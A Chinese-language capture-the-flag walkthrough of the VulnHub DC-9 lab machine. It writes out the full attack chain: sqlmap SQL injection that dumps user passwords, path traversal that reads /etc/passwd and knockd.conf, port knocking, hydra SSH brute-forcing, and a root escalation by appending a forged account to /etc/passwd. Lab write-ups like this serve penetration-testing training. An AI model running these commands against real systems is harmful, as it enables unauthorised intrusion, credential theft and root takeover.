






> [DC-9靶机地址](https://www.vulnhub.com/entry/dc-9,412/)


### 信息收集

**主机发现**

靶机MAC：00:0C:29:5A:C1:F4

```shell
arp-scan -l
```


**端口扫描**

```shell
nmap -A -p- 192.168.80.142
```


访问80端口


目录爆破

```shell
dirsearch -u 192.168.80.139 -i 200
```


点击页面上的四个标签，发现 有个搜索 框，有个登录框



先用bp抓个包


发送到Repeater，修改 参数，看页面有没有变化

当请求参数变成`1' or 1=1`的时候，页面发生变化，存在sql注入漏洞问题！ 


### 漏洞利用

把`Request`请求参数全部导入文件里，然后通过`sqlmap`来破解数据库


文件名，自己随意


然后开始爆破数据库 `sqlmap`通过`-r`参数，读取请求的数据，来爆破数据库

```bash
sqlmap -r dc9.txt --dbs  --batch
```


发现有两个数据库`Staff和users`

先爆破`Staff`库

```bash
sqlmap -r dc9.txt -D  Staff  --tables   --batch
```




继续暴字段

```bash
sqlmap -r dc9.txt -D  Staff  -T Users --columns --batch
```


得到用户名和密码

```bash
sqlmap -r dc9.txt -D  Staff  -T Users -C Password,Username --dump
```




其实也不是去解密网站解密，刚暴出来的用户名和密码两个字段已经把明文给出来了，密文后面跟的就是明文：`transorbital1`

第一个数据库知道了用户`admin` 密码`transorbital1`

然后再去暴第二个数据库`users库`，只有一个`UserDetails`表

```bash
sqlmap -r dc9.txt -D users --tables --batch 
```


```bash
sqlmap -r dc9.txt -D users -T UserDetails --columns --batch
```


```bash
sqlmap -r dc9.txt -D users -T UserDetails -C username,password  --dump
```

得到需用普通用户的用户名和密码


可以先把这些普通用户复制到一个文件里，后面可能用得上

`vim 1.txt`，把账户密码复制进去


通过`awk`命令过滤列，取出先要的用户和密码

```bash
awk -F'|' '{print $2}'  1.txt > user.txt
awk -F'|' '{print $3}'  1.txt > passwd.txt
```

过滤完发现有空格，在`末行模式下输入:%s/ //g`把空格替换为空，删除多余的空行就


数据清洗完成后，访问web网站,点击`Manage`选项，登录`admin`用户


尝试是否存在文件包含漏洞

```bash
http://192.168.80.142/manage.php?file=../../../../../../../../../../../etc/passwd
```




发现有很多用户


可以尝试`hydra`爆破`ssh`端口，但是在端口扫描的时候发现`ssh`的服务并不是`open`状态，而是`filtered`

### 端口敲门服务

> 端口敲门服务，即：knockd服务。该服务通过动态的添加iptables规则来隐藏系统开启的服务，使用自定义的一系列序列号来“敲门”，使系统开启需要访问的服务端口，才能对外访问。不使用时，再使用自定义的序列号来“关门”，将端口关闭，不对外监听。进一步提升了服务和系统的安全性。
>
> 
>
> [靶机-简单谈一下端口碰撞技术 (Port Knocking)](https://zhuanlan.zhihu.com/p/210177505)
>
> [knock：端口敲门服务     _](https://www.cnblogs.com/f-carey/p/16066178.html)

**靶机使用了`knockd`进行防护，用来隐藏`ssh`登陆端口**

**knockd 服务的默认配置路径：/etc/knockd.conf**

```bash
http://192.168.80.142/manage.php?file=../../../../../../../../../../../etc/knockd.conf
```


使用`7469 8475 9842`暗号敲门

```bash
knock 192.168.80.142  7469 8475 9842
```


关闭后也可以使用`nc`命令依次敲门

```bash
nc 192.168.80.142  7469
nc 192.168.80.142  8475
nc 192.168.80.142  9842
```


`ssh`服务已经开启，使用九头蛇密码爆破

```bash
hydra -L user.txt  -P passwd.txt ssh://192.168.80.142
```



ssh连接，当切换到`janitor`用户时，家目录有个隐藏目录


将密码复制到前面过滤出来的密码文件里，再次使用九头蛇爆破ssh

发现除了刚刚爆破的三个用户之外，又多了一个用户


### 提权


发现一个test路径。经过查看发现test是一个python文件，接下来使用查找命令，查看这个python文件：



`cd /opt/devstuff`


---

> [openssl passwd 手动生成密码](https://blog.csdn.net/qq_50854790/article/details/122769363)
>
> [openssl passwd计算密码Hash](https://blog.csdn.net/xuli542683639/article/details/130876017)

**使用`openssl`生成一个加密的密码，由于`/tmp`目录可写，所以直接将伪用户输入到该目录下；**

```bash
openssl passwd -1 -salt Egon Egon
```

`$1$admin$1kgWpnZpUx.vTroWPXPIB0`


然后构造成跟`/etc/passwd`下的一样的格式，保存在pass文件中

> **`/etc/passwd`格式：**
>
> 用户名:密码hash值:uid:gid:说明:家目录:登陆后使用的shell

```bash
echo 'admin:$1$admin$1kgWpnZpUx.vTroWPXPIB0:0:0::/root:/bin/bash' > /tmp/passwd
```

> \$1\$表示使用MD5算法；\$2a\$表示使用Blowfish算法；
>
> \$2y\$是另一算法长度的Blowfish；\$5\$表示SHA-256算法；\$6\$表示SHA-512算法；
>
> 目前基本上都使用sha-512算法的，但无论是md5还是sha-256都仍然支持；
>
> \$salt\$是加密时使用的salt，hashed才是真正的密码部分；

再运行刚刚发现的`test.py`将`/tmp/passwd`写入到`/etc/passwd`

```bash
sudo /opt/devstuff/dist/test/test  /tmp/passwd /etc/passwd
```

使用	`su`命令切换刚刚创建的用户


